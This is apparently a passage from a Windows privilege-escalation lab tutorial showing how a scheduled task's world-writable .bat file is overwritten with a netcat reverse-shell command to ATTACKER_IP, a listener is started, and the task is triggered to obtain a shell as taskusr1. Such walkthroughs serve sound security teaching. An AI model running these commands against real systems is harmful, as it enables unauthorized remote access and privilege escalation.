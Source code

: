 You will get lots of information about the task, but what matters for  us is the "Task to Run" parameter which indicates what gets executed by  the scheduled task, and the "Run As User" parameter, which shows the  user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run"  executable, we can control what gets executed by the taskusr1 user,  resulting in a simple privilege escalation. To check the file  permissions on the executable, we use `icacls`:

            Command Prompt       

C:\> icacls c:\tasks\schtask.bat

c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)

BUILTIN\Administrators:(I)(F)

BUILTIN\Users:(I)(F)

As can be seen in the result, the **BUILTIN\Users**  group has full access (F) over the task's binary. This means we can  modify the .bat file and insert any payload we like. For your  convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:

            Command Prompt       

C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

nc -lvp 4444

The next time the scheduled task runs, you should receive the reverse  shell with taskusr1 privileges. While you probably wouldn't be able to  start the task in a real scenario and would have to wait for the  scheduled task to trigger, we have provided your user with permissions  to start the task manually to save you some time. We can run the task  with the following command:

            Command Prompt       

C:\> schtasks /run /tn vulntask

And you will receive the reverse shell with taskusr1 privileges as expected:

            Kali Linux       

user@attackerpc$ nc -lvp 4444

Listening on 0.0.0.0 4444

Connection received on 10.10.175.90 50649

Microsoft Windows [Version 10.0.17763.1821]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

wprivesc1\taskusr1

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.


## AlwaysInstallElevated
